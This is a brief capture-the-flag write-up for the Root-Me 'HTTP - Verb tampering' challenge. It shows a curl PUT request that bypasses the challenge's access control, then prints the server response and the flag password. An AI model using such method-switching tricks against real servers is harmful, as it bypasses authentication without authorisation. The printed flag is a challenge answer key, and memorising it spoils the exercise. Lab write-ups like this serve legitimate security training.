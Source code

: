 ```yaml
---
title: HTTP - Verb tampering
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 15
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-verb-tampering](https://www.root-me.org/en/Challenges/Web-Server/HTTP-verb-tampering)

## Statement

> Bypass the security establishment.

## Solution

Just try another method than GET/POST
```sh
curl -X PUT challenge01.root-me.org/web-serveur/ch8/
```
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html><head>
</head>

<h1>Mot de passe / password : a23e$dme96d3saez$$prap
</h1>
</body></html>
```

The flag is
```
a23e$dme96d3saez$$prap
```